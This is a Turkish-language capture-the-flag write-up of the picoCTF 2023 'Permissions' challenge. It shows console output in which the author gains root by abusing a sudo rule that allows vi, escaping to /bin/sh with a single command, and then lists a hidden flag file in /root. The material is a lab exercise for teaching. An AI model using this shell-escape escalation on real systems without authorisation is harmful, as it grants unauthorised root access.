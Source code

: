 ```yaml
---
title: 'picoCTF 2023 | Permissions WriteUp'
author: appdone
categories: [picoCTF 2023 Challenges]
tags: [sudo]
render_with_liquid: false
---
```


Bu yazımda, picoCTF platformunda yer alan "Permissions" isimli meydan okumayı çözeceğiz. Amacımız picoCTF tarafından sağlanan linux sistemde yetki yükselterek /root dizininden bayrağı almaktır.

```console
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$
```

Sisteme bağlandıktan sonra ilk iş "sudo -l" komutunu kullandım ve vi aracını istediğim kullanıcının yetkisiyle çalıştırabileceğimi gördüm. -c parametresi ile seçilen programlama dilini kullanarak komut çalıştırabileceğimi biliyorum.

```
sudo -u root /usr/bin/vi -c ':!/bin/sh'
```

Komutu çalıştırdığımızda root haklarına sahip oluyoruz. Geriye sadece root dizinindeki bayrağı almak kalıyor. O da başına '.' konarak gizlenmiş. -a parametresini kullanarak görüntüleyebiliyoruz.

```console
picoplayer@challenge:~$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo -u root /usr/bin/vi -c ':!/bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Mar 14 21:47 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```
